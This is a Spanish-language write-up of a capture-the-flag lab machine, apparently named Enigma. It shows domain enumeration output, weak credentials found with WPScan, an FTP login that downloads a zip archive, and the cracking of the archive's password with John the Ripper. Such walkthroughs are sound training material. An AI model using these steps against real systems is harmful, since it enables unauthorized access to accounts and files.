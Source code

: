 
#### NETBIOS
Analizamos los `puertos 398 y 3398` donde nos da bastante información sobre la máquina que estamos trabajando.

```bash
LDAP (Domain: SantaPrisca.virtual, Site: Default-First-Site-Name) 
Target_Name: SANTAPRISCA
  32   │ |   NetBIOS_Domain_Name: SANTAPRISCA
  33   │ |   NetBIOS_Computer_Name: ENIGMA
  34   │ |   DNS_Domain_Name: SantaPrisca.virtual
  35   │ |   DNS_Computer_Name: enigma.SantaPrisca.virtual
  36   │ |   DNS_Tree_Name: SantaPrisca.virtual
  37   │ |   Product_Version: 6.2.9200
```


##### WPSCAN
Con nuestra herramienta de WPSCAN hemos podido conseguir varias credenciales:
`user: solomon` `pass: 12345678`

### FTP
Analizamos el puerto 21 y con las credenciales halladas con `WPScan` podemos observar un archivo:

```bash
☁  nmap  ftp 10.0.2.4
Connected to 10.0.2.4.
220-Enigmazilla
220 Cualquier intruso que intente entrar sin permiso lo pagara muy caro!
Name (10.0.2.4:plugg): solomon
331 Password required for solomon
Password: 
230 Logged on
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||5505|)
150 Opening data channel for directory listing of "/"
-rw-r--r-- 1 ftp ftp            976 Mar 08  2019 rompeme.zip
226 Successfully transferred "/"
ftp> 
```

Nos bajaremos dicho archivo con el comando `get rompeme.zip` y usaremos `John The Ripper` para romper la contraseña de dicho archivo.

```bash
☁  nmap  john rompeme    
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
Proceeding with incremental:ASCII
0g 0:00:00:28  3/3 0g/s 9734Kp/s 9734Kc/s 9734KC/s dg0t1d..dgbij2
0g 0:00:00:31  3/3 0g/s 9987Kp/s 9987Kc/s 9987KC/s fm1opm..fmk3is
0g 0:00:00:32  3/3 0g/s 10051Kp/s 10051Kc/s 10051KC/s allejo1..alb4du1
0g 0:00:00:35  3/3 0g/s 10263Kp/s 10263Kc/s 10263KC/s tabtua4..takwans
0g 0:00:00:36  3/3 0g/s 10321Kp/s 10321Kc/s 10321KC/s ic6ln5..itah31
0g 0:00:00:37  3/3 0g/s 10376Kp/s 10376Kc/s 10376KC/s gwydr1a..gwy253a
simpleplan       (rompeme.zip)   
```

